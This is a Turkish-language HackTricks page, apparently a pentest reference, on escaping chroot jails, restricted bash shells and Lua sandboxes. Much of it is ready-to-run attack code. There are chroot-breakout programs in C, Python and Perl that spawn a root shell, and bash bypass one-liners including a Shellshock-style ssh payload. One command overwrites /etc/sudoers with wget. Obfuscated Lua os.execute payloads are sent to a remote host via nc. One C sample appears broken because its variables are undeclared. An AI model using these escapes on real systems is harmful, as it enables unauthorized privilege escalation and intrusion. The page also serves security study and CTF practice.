 # Hapishaneden Kaçış

{% hint style="success" %}
AWS Hacking'i öğrenin ve uygulayın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarını paylaşarak PR'ler göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
{% endhint %}

## **GTFOBins**

**"Shell" özelliğine sahip herhangi bir ikili dosyayı çalıştırabilir misiniz diye** [**https://gtfobins.github.io/**](https://gtfobins.github.io) **adresinde arama yapın**

## Chroot Kaçışları

[wikipedia](https://en.wikipedia.org/wiki/Chroot#Limitations) **sitesinden**: Chroot mekanizması, **açık** (**root**) **kullanıcılar** tarafından **kasıtlı müdahalelere karşı korunmak için tasarlanmamıştır**. Çoğu sistemde, chroot bağlamları düzgün bir şekilde yığılmaz ve yeterli ayrıcalıklara sahip chrooted programlar **kırılmak için ikinci bir chroot gerçekleştirebilir**.\
Genellikle bu, kaçmak için chroot içinde kök olmanız gerektiği anlamına gelir.

{% hint style="success" %}
**Araç** [**chw00t**](https://github.com/earthquake/chw00t) aşağıdaki senaryoları kötüye kullanmak ve `chroot`tan kaçmak için oluşturulmuştur.
{% endhint %}

### Root + CWD

{% hint style="warning" %}
Eğer bir chroot içinde **kök** iseniz, **başka bir chroot oluşturarak kaçabilirsiniz**. Bu, 2 chroot'un aynı anda var olamayacağı (Linux'ta) için geçerlidir, bu yüzden yeni bir klasör oluşturursanız ve ardından **dışında olacak şekilde** bu yeni klasörde **yeni bir chroot oluşturursanız**, artık **yeni chroot'un dışında olacaksınız** ve dolayısıyla FS içinde olacaksınız.

Bu genellikle chroot'un çalışma dizinini belirtilene taşımaz, bu yüzden bir chroot oluşturabilirsiniz ancak dışında olabilirsiniz.
{% endhint %}

Genellikle bir chroot hapishanesi içinde `chroot` ikili dosyasını bulamazsınız, ancak bir ikili dosya derleyebilir, yükleyebilir ve çalıştırabilirsiniz:

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("chroot-dir", 0755);
chroot("chroot-dir");
for(int i = 0; i < 1000; i++) {
chdir("..");
}
chroot(".");
system("/bin/bash");
}
```
</details>

<details>

<summary>Python</summary>
```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
```
</details>

<details>

<summary>Perl</summary>
```perl
#!/usr/bin/perl
mkdir "chroot-dir";
chroot "chroot-dir";
foreach my $i (0..1000) {
chdir ".."
}
chroot ".";
system("/bin/bash");
```
</details>

### Root + Kayıtlı fd

{% hint style="warning" %}
Bu, önceki duruma benzer, ancak bu durumda **saldırgan bir dosya tanımlayıcısını mevcut dizine kaydeder** ve ardından **yeni bir klasörde chroot oluşturur**. Son olarak, chroot dışında **FD'ye erişimi olduğundan**, ona erişir ve **kaçar**.
{% endhint %}

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("tmpdir", 0755);
dir_fd = open(".", O_RDONLY);
if(chroot("tmpdir")){
perror("chroot");
}
fchdir(dir_fd);
close(dir_fd);
for(x = 0; x < 1000; x++) chdir("..");
chroot(".");
}
```
</details>

### Root + Fork + UDS (Unix Domain Sockets)

{% hint style="warning" %}
FD Unix Domain Sockets üzerinden iletilir, bu yüzden:

* Bir çocuk süreç oluştur (fork)
* Ebeveyn ve çocuğun iletişim kurabileceği UDS oluştur
* Çocuk süreçte farklı bir klasörde chroot çalıştır
* Ebeveyn süreçte, yeni çocuk sürecin chroot'unun dışında olan bir klasörün FD'sini oluştur
* UDS kullanarak o FD'yi çocuk sürece ilet
* Çocuk süreç o FD'ye chdir yapar ve chroot'unun dışında olduğundan hapisten kaçar
{% endhint %}

### Root + Mount

{% hint style="warning" %}
* Kök cihazını (/) chroot içinde bir dizine bağlama
* Bu dizine chroot yapma

Bu Linux'ta mümkündür
{% endhint %}

### Root + /proc

{% hint style="warning" %}
* Procfs'i chroot içinde bir dizine bağla (henüz bağlı değilse)
* Farklı bir kök/cwd girişi olan bir pid ara, örneğin: /proc/1/root
* Bu girişe chroot yap
{% endhint %}

### Root(?) + Fork

{% hint style="warning" %}
* Bir Fork oluştur (çocuk süreç) ve FS içinde daha derin bir klasöre chroot yap ve ona CD yap
* Ebeveyn süreçten, çocuk sürecin bulunduğu klasörü çocukların chroot'unun öncesindeki bir klasöre taşı
* Bu çocuk süreç chroot'un dışında bulacaktır kendisini
{% endhint %}

### ptrace

{% hint style="warning" %}
* Kullanıcılar zamanında kendi süreçlerini kendi süreçlerinden hata ayıklayabilirdi... ancak artık varsayılan olarak bu mümkün değil
* Yine de, mümkünse, bir sürece ptrace yapabilir ve içinde bir shellcode çalıştırabilirsiniz ([bu örneğe bakın](linux-capabilities.md#cap\_sys\_ptrace)).
{% endhint %}

## Bash Hapishaneleri

### Numaralandırma

Hapishane hakkında bilgi al:
```bash
echo $SHELL
echo $PATH
env
export
pwd
```
### PATH Değiştirme

PATH ortam değişkenini değiştirip değiştiremeyeceğinizi kontrol edin.
```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```
### vim Kullanımı
```bash
:set shell=/bin/sh
:shell
```
### Betik oluştur

_/bin/bash_ içeriğine sahip yürütülebilir bir dosya oluşturabilir misiniz kontrol edin
```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```
### SSH üzerinden bash alın

Eğer ssh üzerinden erişiyorsanız, bir bash kabuğunu yürütmek için bu hileyi kullanabilirsiniz:
```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```
### Tanımla
```bash
declare -n PATH; export PATH=/bin;bash -i

BASH_CMDS[shell]=/bin/bash;shell -i
```
### Wget

Örneğin sudoers dosyasını üzerine yazabilirsiniz
```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```
### Diğer hileler

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)\
[https://pen-testing.sans.org/blog/2012/0**b**6/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)\
[https://gtfobins.github.io](https://gtfobins.github.io)\
**Ayrıca ilginç olabilecek sayfa:**

{% content-ref url="../bypass-bash-restrictions/" %}
[bypass-bash-restrictions](../bypass-bash-restrictions/)
{% endcontent-ref %}

## Python Hapishaneleri

Python hapishanelerinden kaçma hakkında hileler aşağıdaki sayfada bulunabilir:

{% content-ref url="../../generic-methodologies-and-resources/python/bypass-python-sandboxes/" %}
[bypass-python-sandboxes](../../generic-methodologies-and-resources/python/bypass-python-sandboxes/)
{% endcontent-ref %}

## Lua Hapishaneleri

Bu sayfada lua içinde erişebileceğiniz global fonksiyonları bulabilirsiniz: [https://www.gammon.com.au/scripts/doc.php?general=lua\_base](https://www.gammon.com.au/scripts/doc.php?general=lua\_base)

**Komut yürütme ile değerlendirme:**
```bash
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```
Bir kütüphanenin fonksiyonlarını **noktalar kullanmadan çağırmak** için bazı hileler:
```bash
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```
### Kütüphanenin fonksiyonlarını sıralama:
```bash
for k,v in pairs(string) do print(k,v) end
```
Not alın ki her seferinde önceki tek satırlık komutu **farklı bir lua ortamında çalıştırdığınızda fonksiyonların sırası değişir**. Dolayısıyla belirli bir fonksiyonu çalıştırmanız gerekiyorsa, farklı lua ortamlarını yükleyerek ve le kütüphanesinin ilk fonksiyonunu çağırarak kaba kuvvet saldırısı gerçekleştirebilirsiniz:
```bash
#In this scenario you could BF the victim that is generating a new lua environment
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```
**Etkileşimli lua kabuğu alın**: Eğer sınırlı bir lua kabuğunun içindeyseniz, aşağıdaki komutu kullanarak yeni bir lua kabuğu alabilirsiniz (ve umarım sınırsızdır):
```bash
debug.debug()
```
## Referanslar

* [https://www.youtube.com/watch?v=UO618TeyCWo](https://www.youtube.com/watch?v=UO618TeyCWo) (Slaytlar: [https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf](https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf))

{% hint style="success" %}
AWS Hacking'ini öğrenin ve uygulayın: <img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Eğitimi AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'ini öğrenin ve uygulayın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Eğitimi GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* Hacking püf noktalarını paylaşarak PR'ler göndererek **HackTricks** ve **HackTricks Cloud** github depolarına katkıda bulunun.

</details>
{% endhint %}
